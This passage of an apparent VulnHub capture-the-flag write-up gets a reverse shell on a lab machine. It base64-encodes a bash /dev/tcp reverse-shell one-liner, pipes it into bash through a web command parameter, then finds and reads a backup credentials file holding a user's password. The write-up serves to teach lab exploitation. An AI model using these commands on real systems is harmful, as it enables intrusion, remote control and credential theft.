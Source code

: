 ### Reverse Shell
I will base64 encode a bash reverse shell to execute in the target machine:
```
kali@kali:~/vulnhub/serial1/www$ echo "bash -c 'bash -i >& /dev/tcp/192.168.150.130/4444 0>&1'" | base64 -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo=
```

Now I can send the following command:
```bash
cmd=echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo= | base64 -d | bash
```
URL encode the spaces:
```
cmd=echo+YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo%3d+|+base64+-d+|+bash
```

Start a netcat listener, send the command in the browser, and we have a shell:

![](images/untitled19.png)

## Shell as www-data
### Enumeration
Listing directories in the system I found an interesting file that we can read, `/credentials.txt.bak`:
```
www-data@sk4-VM:/$ ls -la
ls -la
total 483896
drwxr-xr-x  20 root root      4096 ago 20  2019 .
drwxr-xr-x  20 root root      4096 ago 20  2019 ..
lrwxrwxrwx   1 root root         7 ago 19  2019 bin -> usr/bin
drwxr-xr-x   3 root root      4096 ago 20  2019 boot
drwxrwxr-x   2 root root      4096 ago 19  2019 cdrom
-rw-r--r--   1 root root        21 ago 20  2019 credentials.txt.bak
drwxr-xr-x  18 root root      4300 mar  8 23:20 dev
drwxr-xr-x 127 root root     12288 ago 20  2019 etc
...[snip]...

www-data@sk4-VM:/$ cat credentials.txt.bak
cat credentials.txt.bak
sk4:KywZmnPWW6tTbW5w
```

From here we could either change user to `sk4` using its password, or SSH in, both works.  
